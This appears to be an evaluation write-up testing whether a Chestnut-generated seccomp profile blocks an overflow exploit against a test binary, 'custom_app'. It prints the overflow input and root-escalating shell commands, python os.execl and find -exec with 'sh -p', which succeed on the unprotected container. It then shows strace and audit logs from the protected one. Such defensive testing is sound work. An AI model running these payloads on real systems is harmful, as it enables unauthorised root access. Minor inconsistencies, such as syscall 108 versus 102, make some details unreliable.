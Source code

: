 ## custom – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `custom_app`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

```bash
docker exec -it custom-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"
```

_For the container without seccomp, we just have to start it with following command:_

```bash
docker exec -it custom-chestnut-normal-container bash
```

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                          COMMAND                  CREATED             STATUS             PORTS                                                   NAMES
b20881c64b5f   custom-chestnut-seccomp        "/bin/bash"              2 minutes ago       Up 2 minutes                                                               custom-chestnut-seccomp-container
920b0d9b8bfa   custom-chestnut-normal         "/bin/bash"              2 minutes ago       Up 2 minutes                                                               custom-chestnut-normal-container
```

_Seccomp_:

The attack on the container with the applied seccomp profile fails:

```
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   117 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/usr/bin/python3.6]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   120 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/usr/bin/find]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   123 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/bin/pwd]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd]
/Chestnut/ChestnutPatcher
```

The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
(venv) user@590efaa20062:/app$ ./custom_app  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) groups=1000(user)
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ true
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ uname
Linux
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ /usr/bin/python3.6 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ /usr/bin/find . -exec /bin/sh -p \; -quit
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the application with the command `strace -f /app/custom_app` we are able to see that just before the processes were killed with the signal `SIGSYS`, the system call `getuid` and `set_tid_address` were executed.

```
# /bin/sh execution
...
[pid   136] munmap(0x7ffff7ff1000, 18864) = 0
[pid   136] getuid()                    = 102
[pid   136] +++ killed by SIGSYS (core dumped) +++


# /usr/bin/python3.6 execution
...
[pid   141] munmap(0x7ffff7ff1000, 18864) = 0
[pid   141] set_tid_address(0x7ffff7feaa10) = 218
[pid   141] +++ killed by SIGSYS (core dumped) +++

# /usr/bin/find execution
...
[pid   151] munmap(0x7ffff7ff1000, 18864) = 0
[pid   151] set_tid_address(0x7ffff7feaad0) = 218
[pid   151] +++ killed by SIGSYS (core dumped) +++

# /usr/bin/id execution
[pid   156] munmap(0x7ffff7ff1000, 18864) = 0
[pid   156] set_tid_address(0x7ffff7fee310) = 218
[pid   156] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 108 was indeed blocked by seccomp

```
❯ sudo ausearch -m seccomp --start today
# /bin/sh execution
time->Thu May  1 12:53:48 2025
type=SECCOMP msg=audit(1746096828.843:2699): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140679 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=102 compat=0 ip=0x7ffff7ac7837 code=0x0

# /usr/bin/python3.6 execution
time->Thu May  1 12:53:52 2025
type=SECCOMP msg=audit(1746096832.059:2709): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140693 comm="python3.6" exe="/usr/bin/python3.6" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff77c8eb5 code=0x0

# /usr/bin/find execution
time->Thu May  1 12:53:54 2025
type=SECCOMP msg=audit(1746096834.240:2719): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140727 comm="find" exe="/usr/bin/find" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff6d8deb5 code=0x0

# /usr/bin/id execution
time->Thu May  1 13:00:58 2025
type=SECCOMP msg=audit(1746097258.719:2794): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=144107 comm="id" exe="/usr/bin/id" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff712beb5 code=0x0
```

We verify that the system call number `218` maps to `set_tid_address` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 102
102	getuid
❯ ausyscall --dump | grep 218
218	set_tid_address
```

The last thing we check is, if the system call numbers `102` and `218` were in the applied seccomp profile. The file `/Chestnut/ChestnutPatcher/policy__app_custom_app.json ` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 8, 9, 10, 11, 12, 13, 14, 15, 20, 21, 38, 39, 60, 62, 63,
    72, 78, 79, 89, 158, 186, 202, 231, 234, 257, 262, 59, 59, 221
  ]
}
```

## Appendix

### Analysis Time

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.667s
user	0m24.341s
sys	0m1.184s

docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.976s
user	0m24.811s
sys	0m1.048s

docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.985s
user	0m24.805s
sys	0m1.072s
```

`(25,667+25,976+25,985)/3=25,876`

### Missing system calls

Following system calls are not detected by Binalyzers, but needed for the application to start successfully, therefore we added these two to the seccomp-profile `/Chestnut/ChestnutPatcher/policy__app_custom_app.json`. This is not Binalyzers fault for not recognising the required system call, but rather a side-effect of the application logic calling a binary outside the application.

- 59 (execve)
- 221 (fadvice64)

```
sed -i '/"syscalls"/ s/\]/, 59, 221]/' /Chestnut/ChestnutPatcher/policy__app_custom_app.json
```

### Number of System Calls

```
echo '{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 8, 9, 10, 11, 12, 13, 14, 15, 20, 21, 38, 39, 60, 62, 63,
    72, 78, 79, 89, 158, 186, 202, 231, 234, 257, 262, 59, 59, 221
  ]
}' | jq -r ".syscalls | length"
35
```
